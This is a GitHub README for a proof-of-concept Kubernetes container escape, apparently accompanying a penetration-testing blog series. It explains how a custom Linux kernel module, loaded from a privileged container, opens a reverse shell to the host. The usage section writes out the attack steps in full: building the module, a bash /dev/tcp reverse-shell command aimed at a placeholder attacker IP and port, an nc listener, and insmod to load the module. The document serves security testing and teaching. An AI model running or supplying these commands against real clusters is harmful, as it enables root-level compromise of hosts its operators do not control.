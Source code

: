 # 🛠️ Kernel Module Reverse Shell – Privileged Container Escape PoC

This repository demonstrates a real-world **container escape technique** using a custom **Linux Kernel Module (LKM)** to spawn a reverse shell from within a `--privileged` Kubernetes container.

Featured in [RBT Security’s Kubernetes Penetration Testing – Part Three](https://www.rbtsec.com/blog/kubernetes-pentesting-part-three), this proof-of-concept shows how attackers can go beyond the container boundary and **execute commands directly on the host**.

> ⚠️ **For educational and authorized testing only.**  
> Do NOT run this code in any environment you do not own or have explicit permission to test.

---

### 🔍 About LKM (350-char Description)  
A Loadable Kernel Module (LKM) lets code run in kernel space without rebooting. When used from a privileged Kubernetes container, it can enable full host compromise. This PoC shows how attackers exploit SSTI, load a reverse shell LKM, and escape the container to gain root access on the Node.

---

## 🚀 How It Works

1. The attacker exploits a vulnerability (e.g., SSTI) to gain code execution inside a **privileged container**.  
2. A **custom kernel module** is compiled and injected from inside the container, with the reverse shell IP and port hardcoded in the source code.  
3. Once loaded, the module uses `call_usermodehelper()` to initiate a **reverse shell** to the attacker’s listener.  
4. Since the container runs with full kernel capabilities (e.g., `CAP_SYS_MODULE`), this grants **host-level command execution**.

---

## 📁 Files

- `k8s-lkm-reverse-shell.c`: The kernel module source code  
- `Makefile`: Used to compile the module for the target kernel

---

## 💻 Usage

```bash
# Step 1: Install dependencies inside the container
apt update
apt install -y build-essential linux-headers-$(uname -r)

# Step 2: Edit the reverse shell IP and port in the C source file
# File: reverseshell_module.c
# Replace <your-ip> and <port> with your attacker's listener
static char command[50] = "bash -i >& /dev/tcp/<your-ip>/<port> 0>&1";

# Step 3: Compile the kernel module
make clean && make

# Step 4: Start your listener
nc -lvnp 6999

# Step 5: Load the kernel module (inside the container)
insmod reverseshell_module.ko
